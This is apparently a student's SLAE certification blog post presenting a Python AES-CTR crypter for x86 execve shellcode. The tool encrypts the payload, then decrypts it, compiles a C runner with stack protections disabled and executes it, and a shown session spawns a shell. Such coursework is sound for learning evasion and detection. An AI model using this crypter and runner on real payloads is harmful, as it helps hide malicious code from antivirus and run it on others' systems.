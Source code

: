 # Assignment #7: Crypter

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-858


### Exercise
- Create a custom crypter like the one shown in the "crypters" video
- Free to use any existing encryption schema
- Can use any programming language


### Solution

To complete the last exercise I have used the [AES encryption algorithm](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) with the block cipher mode CTR (Counter), one of the most recommended modes of encryption. This mode turns a block cipher into a stream cipher. It generates the next keystream block by encrypting successive values of a "counter".  To read more, go to [Wikipedia](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Counter_.28CTR.29)


So, as I am very comfortable programming on python language, I have used this language to make my crypter/decrypter.


I have used a module that implement AES in Python, the module is [pyaes](https://github.com/ricmoo/pyaes)

The installation of this module is very easy, and can be installed with pip.

```bash
$ pip install pyaes
```

I have created a command line program to generate the encrypted shellcode, and the same program using another arguments can be used to decrypt an encrypted shellcode.

```python
#!/usr/bin/env python

import struct
import sys
import pyaes		
import os

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

# encrypt or decrypt
method = sys.argv[1]

# A 256 bit (32 byte) key
key = sys.argv[2]

encrypted_shellcode = ""
if method == 'decrypt':
	encrypted_shellcode = sys.argv[3]

if len(key) != 16 and len(key) != 32:
	print "[-] Error: Invalid key length"
	sys.exit(0)


counter = pyaes.Counter(initial_value = 100)
aes = pyaes.AESModeOfOperationCTR(key, counter = counter)


if (method == "encrypt"):
	encrypted_shellcode = aes.encrypt(shellcode)
	eShellcode = ""
	for x in bytearray(encrypted_shellcode) :
        	eShellcode += '\\x'
	        eShellcode += '%02x' % x
	print "[+] Encrypted shellcode: %s"%(eShellcode)
elif (method == "decrypt"):
	shellcode = aes.decrypt(encrypted_shellcode.decode("hex"))
        eShellcode = ""
        for x in bytearray(shellcode) :
                eShellcode += '\\x'
                eShellcode += '%02x' % x
	print "[*] Decrypted shellcode: %s"%eShellcode
	c_code = '''
#include<stdio.h>									 
#include<string.h>									
											
unsigned char code[] =  \"%s\"; 							
											
int main() {										
	printf(\"Shellcode Length:  %%d\", strlen(code));				
	int (*ret)() = (int(*)())code;							
	ret();										
}											
'''%eShellcode
	f = open("shellcode.c","w")
	f.write(c_code)
	f.close()
	print "[*] Compiling shellcode.c\n%s"%c_code
	os.system("gcc -fno-stack-protector -z execstack shellcode.c -o shellcode")
	print "[+] Launching shellcode..."
	os.system("./shellcode")
		
```

The sintax to use the program:

To encrypt:

```bash
$ ./aes-ctr.py encrypt <16/32 bytes hex password>
```

To decrypt:

```bash
$ ./aes-ctr.py decrypr <16/32 bytes hex password> <encrypted shellcode>
```


Example of usage:

```bash
$ ./aes-ctr.py encrypt 0123456789abcdef0123456789abcdef
[+] Encrypted shellcode: \xd3\xa0\xf8\xd2\xfa\xbf\x28\xfc\x6b\x0c\x0b\xc2\xee\x4c\x01\xd9\x69\xb8\xcd\x96\xb2\x28\x18\x5b\xb3
$ ./aes-ctr.py decrypt 0123456789abcdef0123456789abcdef d3a0f8d2fabf28fc6b0c0bc2ee4c01d969b8cd96b228185bb3
[*] Decrypted shellcode: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
[*] Compiling shellcode.c

#include<stdio.h>									 
#include<string.h>									
											
unsigned char code[] =  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; 							
											
int main() {										
	printf("Shellcode Length:  %d", strlen(code));				
	int (*ret)() = (int(*)())code;							
	ret();										
}											

[+] Launching shellcode...
$ id
uid=1000(hiro) gid=1000(hiro) groups=1000(hiro),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner)
$ 
```
